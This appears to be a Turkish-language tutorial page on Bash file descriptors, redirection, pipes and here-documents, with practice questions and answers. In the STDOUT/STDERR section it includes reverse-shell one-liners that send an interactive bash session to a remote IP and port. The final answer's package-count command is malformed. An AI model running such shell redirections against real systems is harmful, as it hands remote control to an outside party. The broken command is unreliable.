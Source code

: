 ```yaml
---
icon: material/help
search:
  boost: 2
---
```


# File Descriptors and Redirections

## File Descriptors

| Name | Value | Description |
|:---|:---|:---|
| STDIN | 0 | Girdiler için kullanılan veri akışı. |
| STDOUT | 1 | Çıktılar için kullanılan veri akışı. |
| STDERR | 2 | Hata çıktıları için kullanılan veri akışı. |

## STDOUT and STDERR

Bir komutun çalışması esnasında üretebileceği hatalar Null Device konumuna yeniden yönlendirilerek göz ardı edilebilir:

```bash
find /etc -name shadow 2> /dev/null
```

Aşağıda verilen komut ile STDERR ve STDOUT, açılacak olan IP adresi ve port hedefine yeniden yönlendirilmiştir:

```bash
bash -i > /dev/tcp/10.0.2.6/2222 2>&1
```

Yukarıdaki yeniden yönlendirme farklı şekillerde de ifade edilebilir. Bunlardan biri aşağıda verildiği gibidir:

```bash
bash -i &>/dev/tcp/10.0.2.6/2222
```

Diğeri ise aşağıda verildiği gibidir:

```bash
bash -i >&/dev/tcp/10.0.2.6/2222
```

İlk verilen kullanım şekli, önerilen kullanım şeklidir.

## Redirect STDOUT and STDERR to Separate Files

Bir komutun ürettiği çıktılardan STDOUT akışı bir dosyaya, STDERR akışı ise başka bir dosyaya yeniden yönlendirilebilir:

```bash
find /etc -name shadow 2>stderr.txt 1>stdout.txt
```

## Redirect STDIN

Yeniden yönlendirme işlemi STDIN akışı için de yapılabilir. Bunun için farklı olarak `>` işareti yerine `<` işareti kullanılır. Örneğin `stdout.txt` dosyasına kaydedilen veriler `#!bash cat` aracına girdi olarak verilebilir:

```bash
cat 0<stdout.txt
```

## Redirect STDOUT and Append to a File

Eğer `>` işareti ile yeniden yönlendirme yapılırsa yeni bilgiler eski bilgilerin üzerine yazılır. Bunu önlemek için `>>` işareti kullanılabilir. Böylece yeni bilgiler eski bilgilerle birlikte tutulur:

```bash
find /etc -name shadow 2>stderr.txt 1>>stdout.txt
```

## Redirect STDIN Stream to a File

Eğer `<<` işareti kullanılırsa kullanıcı girdisi akışa eklenebilir. Girdinin ne zaman biteceğinin algılanması için bir anahtar kelime de (örneğin EOF) verilmelidir. Bu tarz bir yeniden yönlendirme [Here Documents](https://www.gnu.org/software/bash/manual/bash.html#Here-Documents) formatıdır:

```bash
cat << EOF > stream.txt
```

## Pipes

STDOUT akışını yeniden yönlendirmenin başka bir yolu da Pipe kullanmaktır. Aşağıdaki komutta örnek bir Pipe kullanımı gösterilmiştir:

```bash
find /etc -name "*.conf" 2> /dev/null | grep systemd
```

## Questions

```text
How many files exist on the system that have the ".log" file extension?
```

??? tip "Steps"

    ```bash
    find / -name "*.log" -type f 2> /dev/null | wc -l
    ```

```text
How many total packages are installed on the target system?
```

??? tip "Steps"

    Aşağıda verilen komut ile elde edilen sayının 1 eksiği alındı. Çünkü komut çıktısının ilk satırı, bilgi satırıdır:

    ```bash
    apt list --installed 2> /dev/null | $(($(wc -l) - 1))
    ```
